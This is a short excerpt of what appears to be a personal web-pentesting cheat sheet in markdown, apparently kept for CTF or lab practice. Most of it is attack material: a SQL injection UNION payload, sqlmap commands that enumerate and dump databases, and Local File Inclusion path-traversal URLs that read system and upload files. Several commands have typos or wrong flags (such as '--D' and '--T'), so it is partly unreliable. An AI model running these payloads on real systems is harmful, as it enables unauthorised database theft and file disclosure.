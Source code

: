 For example, you could use a UNION attack with the following input:  
````sql
  ' UNION SELECT @@version--
````

</details>
<details><summary>Listing the contents of the database(except Oracle)</summary></details>

<details><summary>Blind SQLi</summary></details>


[SQLmap cheetsheet](sqlmap.md) 🔗
````js
// sql injection
sqlmap -u http://10.10.197.40/administrator.php --forms --dump

-u = url
--forms = grab the forms /detect
--dump = retrieve data form de sqli

#### basic sqli injection
sqlmap -u 10.10.77.169 --forms --dump

- u = url
- --forms= check the forms automatically
- --dump= dump dthe database data entries

// extract database
sqlmap -u <url> --cookie <cookie> --dbs
sqlmap -u http://localchost.com/hey.php?artist=1 --dbs
// extract colums
Sqlmap -u http://localchost.com/hey.php?artist=1 --D databasname --T artists --columns
// extract data of the table and the column inside of the db
sqlmap -u http://localchost.com/hey.php?artist=1 --D (tabla) --T artist --C adesc, aname, artist_id --dump
````
Local File Inclusion (LFI) Attack (If Web App is Vulnerable)
````html
  
  http://<TARGET-IP>/vulnerable.php?file=../../DVWA/uploads/hash.txt
  
  http://<TARGET-IP>/vulnerable.php?file=../../../../../../../../windows/system32/drivers/etc/hosts
  
  http://<TARGET-IP>/vulnerable.php?file=..%2F..%2FDVWA/uploads/hash.txt
````
